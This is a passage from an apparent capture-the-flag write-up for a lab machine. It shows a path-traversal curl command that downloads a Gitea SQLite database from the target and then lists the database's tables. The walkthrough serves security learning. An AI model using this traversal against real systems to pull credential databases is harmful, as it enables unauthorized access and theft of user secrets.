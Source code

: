 ```bash
docker run --rm -it gitea/gitea
```

In search for sensitive information, we can try to enumerate the Gitea database file. At first, I didn't know where the Gitea database file is located, because of that, I've spawned a `Gitea` container and checked the file structure.

After finding the docker instance with `docker ps`, we can use `docker exec` to get a shell inside the container. Once inside, we can navigate to the `/data/gitea/conf` to find the `app.ini` file which contains the database configuration.

![NON](file-20250620212130561.png)

We can see that the default path is `/data/gitea/gitea.db`. 

Looking at the `docker-compose.yml` file, we can see that the `/home/developer/gitea/data` is mounted inside the container's `data` directory which means that we can access the Gitea database file from the host machine at `/home/developer/gitea/data/gitea/gitea.db`.

![NON](file-20250620212347973.png)

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../../home/developer/gitea/data/gitea/gitea.db'  --output - > gitea.db
```

## Gitea Database Extraction

After downloading the `gitea.db` file, we can use `sqlite3` to interact with the database. First, let's check the tables in the database:


```bash
sqlite3 gitea.db .tables | column

access                     oauth2_grant                 badge                      release                      issue_content_history      team_repo
access_token               org_user                     branch                     renamed_branch               issue_dependency           team_unit
action                     package                      collaboration              repo_archiver                issue_index                team_user
action_artifact            package_blob                 comment                    repo_indexer_status          issue_label                topic
action_run                 package_blob_upload          commit_status              repo_redirect                issue_user                 tracked_time
action_run_index           package_cleanup_rule         commit_status_index        repo_topic                   issue_watch                two_factor
action_run_job             package_file                 commit_status_summary      repo_transfer                label                      upload
action_runner              package_property             dbfs_data                  repo_unit                    language_stat              user
action_runner_token        package_version              dbfs_meta                  repository                   lfs_lock                   user_badge
action_schedule            project                      deploy_key                 review                       lfs_meta_object            user_blocking
action_schedule_spec       project_board                email_address              review_state                 login_source               user_open_id
action_task                project_issue                email_hash                 secret                       milestone                  user_redirect
action_task_output         protected_branch             external_login_user        session                      mirror                     user_setting
action_task_step           protected_tag                follow                     star                         notice                     version
action_tasks_version       public_key                   gpg_key                    stopwatch                    notification               watch
```